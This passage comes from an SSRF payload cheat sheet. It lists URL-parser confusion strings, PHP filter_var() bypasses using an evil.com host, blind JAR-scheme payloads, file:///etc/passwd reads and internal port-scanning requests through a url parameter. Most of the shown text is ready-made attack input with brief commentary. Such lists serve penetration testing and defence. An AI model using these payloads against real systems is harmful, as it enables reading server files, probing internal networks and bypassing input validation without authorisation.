 ![https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.png?raw=true](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.jpg?raw=true)

Parsing behavior by different libraries: `http://1.1.1.1 &@2.2.2.2# @3.3.3.3/`

* `urllib2` treats `1.1.1.1` as the destination
* `requests` and browsers redirect to `2.2.2.2`
* `urllib` resolves to `3.3.3.3`

### Bypass PHP filter_var() Function

In PHP 7.0.25, `filter_var()` function with the parameter `FILTER_VALIDATE_URL` allows URL such as:

* `http://test???test.com`
* `0://evil.com:80;http://google.com:80/`

```php
<?php 
 echo var_dump(filter_var("http://test???test.com", FILTER_VALIDATE_URL));
 echo var_dump(filter_var("0://evil.com;google.com", FILTER_VALIDATE_URL));
?>
```

### Bypass Using JAR Scheme

This attack technique is fully blind, you won't see the result.

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## Exploitation via URL Scheme

### File

Allows an attacker to fetch the content of a file on the server. Transforming the SSRF into a file read.

```powershell
file:///etc/passwd
file://\/\/etc/passwd
```

### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF stream](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)
